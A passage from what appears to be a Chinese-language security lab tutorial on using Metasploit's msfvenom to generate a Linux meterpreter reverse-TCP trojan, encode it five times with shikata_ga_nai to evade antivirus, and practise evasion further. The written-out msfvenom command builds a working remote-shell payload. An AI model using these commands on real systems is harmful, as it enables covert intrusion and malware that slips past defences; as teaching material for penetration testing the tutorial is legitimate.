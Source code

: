 还以为多麻烦的木马捆绑，就被`Metasploit`中的一个工具轻松解决了？没错，`Metasploit`就是这么强大！

## 六、木马免杀

虽然我们已经准备好了木马程序，并且也捆绑到了常用的应用程序上，但是现在杀毒软件泛滥，不经过免杀就算成功上传到目标主机，估计还没等运行就被杀掉了。这里用`msfvenom`生成木马同时对`payload`编码来实现木马的简单免杀。我们先来学习一下我们要用到的命令选项:

- `-e`选项用来指定要使用的编码器。
- `-i`选项用来指定对`payload`编码的次数。

先来看一下都有哪些编码器可用：

```
msfvenom -l encoders
```

![此处输入图片的描述](https://dn-anything-about-doc.qbox.me/document-uid231096labid2378timestamp1480254434968.png/wm)

这里我们挑选一个免杀效果比较好的编码器`x86/shikata_ga_nai`，进行编码：

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.122.101 -e x86/shikata_ga_nai -i 5 -f elf -o /root/payload_encoder.elf
```
![此处输入图片的描述](https://dn-anything-about-doc.qbox.me/document-uid18510labid2378timestamp1482295899906.png/wm)

从图中我们可以看到完成了对木马的5次编码，这样木马基本上就可以躲避部分杀毒软件的查杀，其实还可以对木马程序进行多次编码，虽然可以提高木马的免杀几率，不过可能会导致木马程序不可用。当然要想免杀效果更好就需要使用`Metasploit pro版本`或者给木马`加壳`、修改木马的`特征码`等等，不过要想躲过全部杀毒软件的查杀则会有些难度，通常会针对某个杀毒软件进行免杀。由于其他方法不在本次实验讨论范围之内，所以这里就不在赘述。

## 七、总结

本次实验主要演示了如何使用`Metasploit`中的`msfvenom`命令来生成、捆绑以及免杀木马的方法。整个过程比较简单，希望同学们能针对本节课的内容详细了解`Metasploit`中的`payloadys`、`encoders`模块以及帮助文档，然后对本节内容举一反三，多多练习使用不同的编码器进行免杀，同时测试是否能躲过目前常见的杀毒软件，关于使用`Metasploit`的渗透测试的技巧，与修改特征码免杀我会在后续的课程中一一讲解。
